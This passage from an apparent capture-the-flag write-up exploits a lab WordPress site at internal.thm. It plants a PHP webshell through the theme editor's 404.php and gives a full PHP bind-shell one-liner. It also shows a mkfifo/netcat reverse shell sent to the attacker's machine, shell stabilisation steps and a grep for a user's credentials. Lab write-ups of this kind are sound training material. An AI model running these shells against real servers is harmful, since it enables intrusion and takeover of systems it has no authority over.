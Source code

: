 We have a match : [80][http-post-form] host: internal.thm   login: admin   password: [REDACTED]


### Exploiting a wordpress blog

We can access the admin panel of the wordpress blog.<br>
But now we need to find something to execute code and get access to the web server<br>
On Wordpress there are themes which can be modified and contain php pages<br>

We will modify the Twenty Seventeen theme.<br>

-> Apparance -> Theme editor -> 404.php

I will use a php webshell like the : https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985<br>

We need to access to the php file, which can be found on : 
> http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php

Since we have a webshell, We can try to get a reverse shell on our computer.<br>
I didn't succeed to launch a reverse shell from the server, so I will use a bind shell<br>
I will use a php bind shell from the revshells.com site. :

php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",4555);socket_listen($s,1);$cl=socket_accept($s);
while(1){if(!socket_write($cl,"$ ",2))exit;$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd)
;socket_write($cl,$m,strlen($m));}}'


Then connect to the server using : <br>
nc internal.thm 4555

### Stabilize the shell

Since the connection is not very stable, I will throw a reverse shell from this connection to my computer.<br>
Throw a listener on your local machine : nc -lvp 4444<br>
On the remote machine : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc your_ip 4444 >/tmp/f

On the stabilization part, I will use python:
> python -c 'import pty;pty.spawn

> Ctrl + Z

> stty raw -echo

> fg

> export TERM=xTERM

# ENUMERATION OF THE SYSTEM

On the system, we can discover a user named : aubreanna<br>
But we don't have access to the home directory.<br>

We can try to find credentials for this user in the system.<br>
Let's try to search for files containing 'aubreanna'<br>
> grep -R aubreanna / 2>/dev/null
